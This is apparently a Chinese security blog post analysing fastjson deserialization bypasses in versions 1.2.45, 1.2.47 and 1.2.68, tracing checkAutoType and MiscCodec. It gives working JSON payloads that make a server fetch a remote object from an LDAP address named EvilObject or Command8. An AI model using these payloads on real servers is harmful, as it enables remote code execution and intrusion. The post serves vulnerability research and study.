







fastjson 1.2.45
一个黑名单绕过
{
"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
"properties":{
"data_source":"ldap://127.0.0.1:23457/Command8"
}
}1.2.25<=fastjson<=1.2.47
在这个版本中可以在不开启AutoTypeSupport的情况下，进行反序列化利用
在这个版本的ParserConfig#checkAutoType中

在AutoType为false的时候，前面如果为true的if语句就跳过了，但是在进入第二个如果其为false的if语句之前，尝试使用TypeUtils#getClassFromMapping和deserializers.findClass来查找需要反序列化的类，如果找到，就不会进入第二个语句
这个链子主要是在TypeUtils#getClassFromMapping这里做文章，但是我们也来看看deserializers
private final IdentityHashMap<Type, ObjectDeserializer> deserializers;他是一个IdentityHashMap，可以在里面添加值得方法有
getDeserializer: 加载特定类或者有JSONType注解的类
initDeserializers()：无入参，在构造方法中调用，写死一些认为没有危害的固定常用类，无法为我们所用。putDeserializer()：被前两个函数调用，我们无法控制入参。
然后看另一个查找类得方法
//TypeUtils#getClassFromMapping
public static Class<?> getClassFromMapping(String className) {
return (Class)mappings.get(className);
}从mappings中取值
//TypeUtils#mappings
private static ConcurrentMap<String, Class<?>> mappings = new ConcurrentHashMap(16, 0.75F, 1);是一个ConcurrentMap对象
能够赋值得方法有
addBaseClassMappings()：无入参，加载loadClass()：关键函数
这个函数有三个重载

Class<?> loadClass(String className, ClassLoader classLoader, boolean cache)：调用链均在checkAutoType()和TypeUtils里自调用，略过。Class<?> loadClass(String className)：除了自调用，有一个castToJavaBean()方法，暂未研究。Class<?> loadClass(String className, ClassLoader classLoader)：方法调用两个参数的重载方法，并添加参数 true ，也就是会加入参数缓存中
在com.alibaba.fastjson.serializer.MiscCodec#deserialze这个类是用来处理一些乱七八糟类的反序列化类，其中就包括 Class.class 类，成为了我们的入口。
我们来测试一下子，跟进一下他怎么加载到mappings中的
package pers.fastjson;
import com.alibaba.fastjson.JSON;
public class Fj47_Test {
public static void main(String[] args) {
String payload = "{\"@type\":\"java.lang.Class\",\"val\":\"aaaaa\"}";
JSON.parseObject(payload);
}
}
调用链如上

在这里调用了checkAutoType方法进行检查

由于 deserializers 在初始化时将 Class.class 进行了加载，因此使用 findClass 可以找到，越过了后面 AutoTypeSupport 的检查。
DefaultJSONParser.parseObject() 根据不同的 class 类型分配 deserialzer，Class 类型由 MiscCodec.deserialze() 处理

payload:
{
"RoboTerh": {
"@type": "java.lang.Class",
"val": "com.sun.rowset.JdbcRowSetImpl"
},
"demo": {
"@type": "com.sun.rowset.JdbcRowSetImpl",
"dataSourceName": "ldap://127.0.0.1:8888/EvilObject",
"autoCommit": true
}
}fastjson1.2.68
在 1.2.47 版本漏洞爆发之后，官方在 1.2.48 对漏洞进行了修复，在 MiscCodec 处理 Class 类的地方，设置了cache 为 false ，并且 loadClass 重载方法的默认的调用改为不缓存，这就避免了使用了 Class 提前将恶意类名缓存进去。
更新了一个新的安全控制点 safeMode，如果应用程序开启了 safeMode，将在 checkAutoType() 中直接抛出异常，也就是完全禁止 autoType
这就形成了 Throwable 子类绕过 checkAutoType() 的方式。我们需要找到 Throwable 的子类，这个类的 getter/setter/static block/constructor 中含有具有威胁的代码逻辑。
与 Throwable 类似地，还有 AutoCloseable ，之所以使用 AutoCloseable 以及其子类可以绕过 checkAutoType() ，是因为 AutoCloseable 是属于 fastjson 内置的白名单中


- Post link: https://roboterh.github.io/2022/04/01/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E2/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.